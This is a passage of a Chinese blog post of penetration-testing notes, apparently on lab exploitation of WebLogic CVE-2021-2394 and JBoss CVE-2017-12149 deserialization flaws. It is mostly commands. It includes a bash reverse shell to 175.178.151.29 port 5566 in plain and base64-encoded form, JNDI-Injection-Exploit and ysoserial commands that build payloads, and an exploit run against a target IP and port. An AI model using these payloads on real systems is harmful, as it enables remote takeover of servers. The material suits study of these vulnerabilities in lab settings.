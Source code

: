 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134648209-1784527411.png)

```plain
把地址复制上去就可以直接检测出来。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134647684-230631485.png)

```plain
5.cve_2021_2394   反序列化（需要手工演示）

利用到的工具：
https://github.com/lz2y/CVE-2021-2394
https://github.com/welk1n/JNDI-Injection-Exploit

先对反弹shell进行编码：bash -i >& /dev/tcp/175.178.151.29/5566 0>&1
经过base64编码：YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=（为什么要进行编码，这个是和漏洞相关的。）
上传文件（NDI-Injection-Exploit-1.0-SNAPSHOT-all.jar）到服务器，执行：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}" -A 175.178.151.29
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134648147-768952613.png)

```plain
复制地址：ldap://175.178.151.29:1389/2bvnem

在本地执行：java -jar CVE_2021_2394.jar 123.58.236.76 32307 ldap://175.178.151.29:1389/2bvnem

监听5566端口
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134648677-103936778.png)

```plain
出现版本问题，但是试了很多版本都是一样的。
```

- 中间件-JBoos-工具脚本搜哈

```plain
Jboss通常占用的端口是1098，1099，4444，4445，8080，8009，8083，8093这几个，Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。

1、CVE-2017-12149
启动环境：
cd /vulhub-master/jboss/CVE-2017-12149
sudo docker-compose up -d

访问：http://192.168.233.128:8080/
利用工具：ysoserial-master-30099844c6-1.jar

利用过程：
先对反弹shell进行编码：bash -i >& /dev/tcp/175.178.151.29/5566 0>&1
经过base64编码：YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=
生成：java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser
生成poc.ser文件
```
